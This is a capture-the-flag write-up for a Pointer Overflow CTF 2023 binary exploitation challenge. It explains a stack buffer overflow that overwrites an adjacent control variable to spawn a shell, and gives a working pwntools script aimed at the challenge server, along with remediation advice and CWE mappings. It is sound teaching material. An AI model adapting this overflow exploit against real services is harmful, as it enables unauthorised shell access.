


# My Friend, A Loathsome Worm

| Detail | Value |
|--------|-------|
| **CTF** | Pointer Overflow CTF 2023 |
| **Category** | Exploitation |
| **Difficulty** | Easy |
| **Points** | 100 |
| **Flag** | `poctf{uwsp_5w337_c10v32_4nd_50f7_511k}` |
| **Status** | Solved |

---

## 1. Challenge Overview

A straightforward binary exploitation challenge. The program (`exploit1.bin`) runs on a remote server and has a menu with options to set a username, confirm it, and log in. The goal is to trick the program into spawning a shell without overwriting the return address; instead, we overwrite a local variable on the stack that controls a security check.

**Target:** `34.123.210.162:20232`

---

## 2. Binary Analysis

Decompiling the binary reveals the key logic:

1. A menu offers three options: (1) Enter username, (2) Confirm username, (3) Login
2. The username buffer and a control variable sit adjacent on the stack
3. If the control variable equals `1337` (0x539), the program spawns a shell
4. The username buffer is 28 bytes, and the control variable sits immediately after it

---

## 3. Exploitation Strategy

We simply need to:

1. Select option 1 (Enter username)
2. Send 28 bytes of padding followed by the value `1337` packed as a 64-bit little-endian integer
3. Select option 3 (Login), which checks the variable and spawns a shell

No return address manipulation, no ROP chains; just a clean variable overwrite.

---

## 4. Exploit Script

~~~python
# Original solve by a101e-lab, adapted for this writeup
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
r = remote('34.123.210.162', 20232)
r.recvuntil(b'Choice: ')
r.sendline(b'1')
r.recvuntil(b'Enter new username: ')
r.sendline(b'A' * 28 + p64(1337))
r.recvuntil(b'Choice: ')
r.sendline(b'3')
r.interactive()
~~~

After getting a shell, read the flag:

~~~bash
cat flag.txt
~~~

---

## 5. Attack Path Summary

~~~text
exploit1.bin
    |
Option 1: Enter username
    |
28 bytes padding + p64(1337) -> overwrite control variable
    |
Option 3: Login -> shell spawned
    |
cat flag.txt -> FLAG
~~~

The leetspeak reads: "sweet clover and soft silk."

---

## 6. Lessons Learned

| # | Finding | Real-World Relevance | Key Takeaway |
|---|---------|---------------------|--------------|
| 1 | Adjacent stack variables can be overwritten without touching the return address | Real applications use stack variables for authorization checks; overwriting them can bypass security logic | Buffer overflows affect more than just return addresses; any adjacent variable is a target |
| 2 | Magic value comparisons are weak security gates | Checking a variable against a hardcoded value is trivially bypassed if the variable can be controlled | Use proper authentication mechanisms, not stack-based magic numbers |
| 3 | No ASLR or PIE needed for this exploit | The attack works regardless of address randomization because it only overwrites a local variable | Stack layout predictability is a vulnerability even with modern protections enabled |

---

## MITRE ATT&CK Mapping

| Phase | Tactic | Technique | TTP-ID |
|-------|--------|-----------|--------|
| Initial Access | TA0001 | Exploit Public-Facing Application | T1190 |
| Execution | TA0002 | Exploitation for Client Execution | T1203 |
| Privilege Escalation | TA0004 | Exploitation for Privilege Escalation | T1068 |

> MITRE ATT&CK: https://attack.mitre.org/

---

## Remediation and Containment

### Technical Fixes

1. Ensure input length is validated against buffer size before writing
2. Separate security-critical variables from user-controlled buffers using compiler features or struct padding
3. Use stack canaries and enable all compiler hardening flags (`-fstack-protector-all`, `-D_FORTIFY_SOURCE=2`)
4. Implement proper authentication instead of magic-number comparisons

### MITRE D3FEND Countermeasures

- **D3-SEA Stack Frame Canary Validation** to detect stack corruption before control variable overwrite (counters T1203)
- **D3-HBPI Host Boot Process Integrity** to ensure binary integrity at load time (counters T1068)

### NIST CSF 2.0

- **Protect (PR.IP-12):** Vulnerability management includes secure compilation practices
- **Detect (DE.CM-8):** Vulnerability scanning identifies memory safety issues in deployed binaries

### NIST SP 800-53 Rev. 5

- **SI-16: Memory Protection** (enforce buffer boundaries and stack protection)
- **SA-11: Developer Security Testing** (fuzz test input handling to find overflow conditions)

### CWE

- **CWE-121: Stack-based Buffer Overflow** (writing beyond buffer overwrites adjacent variable)
- **CWE-787: Out-of-bounds Write** (user input written past allocated buffer)

---

## References

- Based on solve approach from [a101e-lab](https://github.com/a101e-lab/CTF-Writeups)

---

Thanks guys!! (❍ᴥ❍ʋ)

---

Sometimes the simplest overflow is the most elegant; why pick the lock when you can remove the hinges? If this straightforward pwn walkthrough clicked for you, share it with a friend learning binary exploitation.

- Instagram: https://www.instagram.com/uniaogeek
- LinkedIn: http://linkedin.com/in/mrhenrike
- X: https://x.com/mrhenrike
